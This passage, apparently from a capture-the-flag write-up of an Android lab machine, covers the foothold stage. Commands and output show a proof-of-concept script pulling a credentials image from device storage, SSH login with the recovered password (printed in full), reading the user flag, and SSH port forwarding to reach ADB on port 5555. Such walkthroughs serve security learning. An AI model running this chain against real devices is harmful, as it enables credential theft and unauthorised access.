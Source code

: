 ```console
└──╼ [★]$ python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --host 10.129.50.183
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
	from: 10.129.50.183
[*] Server responded with: 200
[*] Writing to file: creds.jpg
```
Nice we get some credentials for Kristi.

Note: All of the commands for how to use the exploit are on the github page linked above.

![image](https://user-images.githubusercontent.com/105310322/187546075-5fa48056-3f25-4ff8-b990-1925ad3e2572.png)


Input the Strong Password ```Kr1sT!5h@Rp3xPl0r3!``` and we are in!

```console
└──╼ [★]$ ssh -p 2222 kristi@10.129.50.183
Password authentication
Password: 
:/ $
```
I was getting denied when trying to view but diving a little deeper let us in to cat the user flag.

Note: This flag is also found in /sdcard and there were no issues viewing it there.

```console
:/storage $ ls /storage/emulated/                                              
ls: /storage/emulated/: Permission denied
1|:/storage $ ls /storage/emulated/0                                           
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos 
1|:/storage $ cat /storage/emulated/0/user.txt                                 
f320****************************
:/storage $ 
```
With this being my first android machine I tried a few different methods similar to linux boxes, but I was not getting anywhere.

Then I remembered how I tried to use adb to connect to port 5555 and debug.

This time instead of using a simple ``adb connect 10.129.50.183:5555```

I am going to have Kristi set it up and then connect via my host computer.

```console
└──╼ [★]$ ssh -p 2222 -L 5555:localhost:5555 kristi@10.129.50.183
Password authentication
Password: 
:/ $ 
```
Now that Kristi is connected lets run adb again.

```console
└──╼ [★]$ adb connect localhost:5555
connected to localhost:5555
```
Now that we are connected just open a shell and we are in! But we are not root yet.
